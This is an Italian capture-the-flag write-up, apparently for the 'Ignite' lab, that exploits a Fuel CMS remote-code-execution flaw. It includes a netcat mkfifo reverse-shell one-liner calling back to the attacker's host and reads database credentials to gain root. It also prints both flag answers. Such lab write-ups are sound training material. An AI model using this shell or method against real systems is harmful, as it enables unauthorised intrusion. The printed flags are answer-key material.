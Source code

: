 # Ignite

_Difficoltà: Easy_
____________

# Task 1 - Root it!

-  nmap -p- --open -sC -sV -sS -A -T 5 -Pn -oN scan_ignite.txt TARGET-IP

![Istantanea_2023-08-04_09-39-23](https://github.com/Manganaccio/Manganaccio/assets/137283468/3dfcba0c-7325-48c2-9bb6-936e798b53f2)

-  la scansione con nmap mostra che la porta 80 è aperta, pertanto possiamo navigare al sito web http://TARGET-IP

![Istantanea_2023-08-04_09-42-03](https://github.com/Manganaccio/Manganaccio/assets/137283468/39b93c47-ac65-42ea-9024-c7cb16d6b197)

-  il sito web mostra informazione molto interessanti relativamente al CMS e alla versione installata; scorrendo poi nel sito web si possono ottenere ulteriori informazioni inerenti le credenziali di default per l'accesso e la directory di login

![Istantanea_2023-08-04_09-41-01](https://github.com/Manganaccio/Manganaccio/assets/137283468/460823f9-641a-4bc8-b1bd-5ee575ee90c2)

-  attraverso una ricerca sulle eventuali vulnerabilità relative al CMS in questione (si può usare il comando _serachsploit fuel cms_ direttamente nel terminale o attraverso database come [exploit-db](https://www.exploit-db.com/)), si può notare che Fuel CMS è vulnerabile a RCE (Remote Code Execution)

![Istantanea_2023-08-04_15-01-45](https://github.com/Manganaccio/Manganaccio/assets/137283468/7ee282c6-a5d5-4d8e-a1af-e16508ed55e1)

-   con riferimento al file evidenziato nell'immagine sopra, una volta eseguito si può ottenere il controllo della shell attraverso l'esecuzione del comando "nc mkfifo": rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc YOUR-IP PORT >/tmp/f

![Istantanea_2023-08-04_10-05-20](https://github.com/Manganaccio/Manganaccio/assets/137283468/596c0041-7019-4f39-9a62-e9d8de2c68e3)

-   in un terminale eseguire il comando: nc -lvnp PORT (la porta da selezionare dovrà essere la medesima inserita nel comando "nc mkfifo")

![Istantanea_2023-08-04_10-05-46](https://github.com/Manganaccio/Manganaccio/assets/137283468/ba3e8548-abb6-4240-aac5-5af2a7c5ad07)

# User.txt

-  la prima flag si trova facilmente nella cartella /home/www-data

        Answer: 6470e394cbf6dab6a91682cc8585059b

# Root.txt

-  per trovare la seconda flag sarà necessario fare una piccola scalata dei privilegi; ritornando nella pagina web si ha un'ulteriore informazione che si può sfruttare per ottenere l'accesso al profilo root, sarà necessario quindi leggere il file database.php

![Istantanea_2023-08-04_15-24-43](https://github.com/Manganaccio/Manganaccio/assets/137283468/bc99f199-2f2b-43d8-914b-0be848b4b228)

- i dati presenti (username e password) ci permetteranno di accedere al profilo root e leggere la flag root.txt

![Istantanea_2023-08-04_10-21-38](https://github.com/Manganaccio/Manganaccio/assets/137283468/5064c3f6-b2f2-4268-b0b0-87795cd40025)

![Istantanea_2023-08-04_10-22-43](https://github.com/Manganaccio/Manganaccio/assets/137283468/5ff789e4-cacc-4c55-9064-1d71d1ee88ba)

        Answer: b9bbcb33e11b80be759c4e844862482d
